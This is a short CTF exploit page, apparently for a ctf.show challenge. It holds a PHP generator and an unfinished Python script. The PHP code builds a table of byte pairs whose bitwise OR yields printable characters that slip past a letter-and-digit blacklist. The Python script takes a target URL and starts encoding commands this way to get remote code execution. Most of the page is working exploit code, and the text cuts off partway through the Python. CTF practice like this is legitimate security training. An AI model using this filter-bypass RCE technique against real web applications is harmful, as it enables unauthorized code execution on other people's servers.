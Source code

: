大佬的脚本

```php
<?php
$myfile = fopen("rce_or.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i';
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)|urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);

```

```python
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
os.system("php rce_or.php")  #没有将php写入环境变量需手动运行
if(len(argv)!=2):
   print("="*50)
   print('USER：python exp.py <url>')
   print("eg：  python exp.py http://ctf.show/")
   print("="*50)
   exit(0)
url=argv[1]
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("rce_or.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
```